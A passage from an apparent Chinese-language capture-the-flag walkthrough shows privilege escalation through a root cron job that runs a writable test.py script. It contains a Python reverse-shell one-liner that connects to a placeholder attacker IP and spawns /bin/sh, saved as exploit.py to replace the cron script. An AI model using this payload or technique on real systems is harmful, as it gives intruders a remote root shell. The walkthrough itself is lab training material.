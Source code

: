 **test.txt** 文件归 root 所有，似乎是 scriptmanager 拥有的 **test.py** 脚本的结果。

我用检查 **test.py** 的内容

```
cat test.py
```

![Screenshot-2021-02-01-at-23.07.56](img/e4e3bf4fe495e3c623d84baed6f70b2e.png)

与 **test.txt 的内容**同

```
cat test.txt
```

![Screenshot-2021-02-01-at-23.10.28](img/338661c1067dfe3f5577dc310ae3d5a5.png)

我再次列出所有文件，发现 **test.tx** t 的时间已经改变。我们可以假设有一个 cron 作业正在运行来自 **/scripts** 文件夹的 **test.py** 脚本。

![Screenshot-2021-02-01-at-23.10.57](img/6ace594b0785c6bef8b72cf2386bbadb.png)

让我们写一个漏洞利用

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_MACHINE_IP",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > exploit.py
```

并保存为 **exploit.py** 。

我用删除了 **test.py** 文件
